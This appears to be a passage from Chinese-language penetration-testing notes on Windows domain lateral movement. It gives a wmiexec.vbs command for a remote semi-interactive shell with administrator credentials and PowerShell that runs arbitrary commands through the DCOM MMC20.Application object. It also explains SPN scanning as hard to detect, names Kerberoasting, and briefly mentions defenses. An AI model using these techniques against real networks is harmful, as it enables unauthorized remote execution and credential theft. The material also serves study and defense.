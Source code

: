 **e.g. wmic、wmiexec.py、wmiexec.vbs、Invoke-WmiCommand.ps1、Invoke-WMIMethod,smbexec的使用大同小异,自行百度.**

```
wmiexec.vbs:
输入以下命令，获得一个半交互式的shell:
cscript.exe //nologo wmiexec.vbs /shell 10.10.10.10 administrator Server2012

```


## 12.DCOM

DCOM（Distributed Component Object Model，分布式组件对象模型）是微软的一系列概念和程序接口。通过DCOM，客户端程序对象能够对网络中的另一台计算机上的服务器程序对象发送请求。

DCOM是基于组件对象模型（COM）的。COM提供了一套允许在同一台计算机上的客户端和服务端之间进行通信的接口。

执行流程同样：通过ipc$连接远程计算机；执行命令。

**获取DCOM程序列表:**
```
windows7,windows server2008 :
Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_DCOMApplication

windows server2012及以上版本:
Get-CimInstance Win32_DCOMApplication
```

**使用DCOM执行任意命令:**
```
在本地启动一个管理员权限的powershell,执行如下命令,将弹出一个计算器:
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","127.0.0.1"))

$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c calc.exe","Minimized")

使用dcom在远程机器上执行命令:百度,不赘述.
```

## 13.SPN

微软给与内的每种资源分配了不同的服务主体名称（Service Principal Name，SPN）。

因为域环境中的每台服务器都需要在Kerberos身份验证服务中注册SPN，所以攻击者会直接向域控制器发送查询请求，获取其需要的服务的SPN，**从而知晓其需要使用的服务资源在哪台机器上**。

SPN扫描也称作“扫描Kerberos服务实例名称”，**在活动目录中发现服务的最佳方法就是SPN扫描**。与网络端口扫描相比，SPN扫描的主要特点是不需要通过连接网络中的每个IP地址来检查服务端口（不会因触发内网中的IPS、IDS等设备的规则而产生大量的警告日志）。因为SPN查询是Kerberos票据行为的一部分，所以检测难度较大。

SPN是通过LDAP协议向域控制器进行查询的，所以，攻击者只要获得一个**普通的域用户权限**就可以进行SPN扫描。

Kerberoast攻击。导出票据，破解票据。

防御：确保服务账号密码的长度超过25位；确保密码的随机性（避免相同）；定期修改密码。

## 14.Exchange

电子邮件中可能包含大量的源码、企业内部通讯录、明文密码、敏感业务登陆地址及可以从外网访问内网的VPN账号密码等信息。
